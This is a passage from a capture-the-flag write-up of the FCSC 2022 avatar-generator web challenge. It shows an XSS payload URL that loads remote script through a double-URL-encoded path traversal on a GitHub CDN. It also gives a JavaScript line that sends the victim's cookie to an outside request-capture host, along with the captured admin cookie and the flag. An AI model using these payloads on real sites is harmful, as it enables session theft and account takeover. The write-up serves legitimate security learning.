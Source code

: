 ``https://avatar-generator.france-cybersecurity-challenge.fr/index.php?seed=%3C%22%27%27%22%3E%3Ciframe%20srcdoc=%22%3Cscript%20src=//rawcdn.githack.com/caroso1222/notyf/v2.0.1/dist/../../../../Ruulian/exploit/v1.0.1/exploit.js%3E%3C/script%3E%22%3E#debug``

![path_traversal_failed](images/path_traversal_failed.png)

**Url encoding**

Our browser simplifies url so it always disallow our source. To bypass it, we can try to url encode only ``/`` like that: ``//rawcdn.githack.com/caroso1222/notyf/v2.0.1/dist/..%2F..%2F..%2F..%2FRuulian/exploit/v1.0.1/exploit.js``

So we have to double url encode:

``https://avatar-generator.france-cybersecurity-challenge.fr/index.php?seed=%3C%22%27%27%22%3E%3Ciframe%20srcdoc=%22%3Cscript%20src=//rawcdn.githack.com/caroso1222/notyf/v2.0.1/dist/..%252F..%252F..%252F..%252FRuulian/exploit/v1.0.1/exploit.js%3E%3C/script%3E%22%3E#debug``

![first_alert](images/first_alert.png)

BINGO! We have our XSS! Now we just have to change our script in our repo and we'll get the cookie :-)

## Getting the cookie

We put this payload in our ``exploit.js``: ``document.location.replace('https://fcsc2022.free.beeceptor.com?cookie='.concat(document.cookie))``. We just have to wait a few seconds and we get our cookie!

![cookie](images/cookie.png)

Here is our cookie: ``admin=d13e3bde2f9a8ff1f3ef377d16a5da5f26840953``

## Getting the flag

We just have to set the cookie and go on ``/admin.php`` and voilà!

![flag](images/flag.png)

Here is our flag: ``FCSC{2d5e4d79789a5a9a68753350b72202478b2f9bf8}``.

## Conclusion

It was a great challenge with some cool exploits, I really enjoyed it! Thanks to the creator :-)

## References

- https://github.com/manoelt/H1-415-CTF-Writeup
- https://twitter.com/foobar0x7/status/1293791796401766400
- https://security.stackexchange.com/questions/206756/is-it-possible-to-bypass-this-xss-filter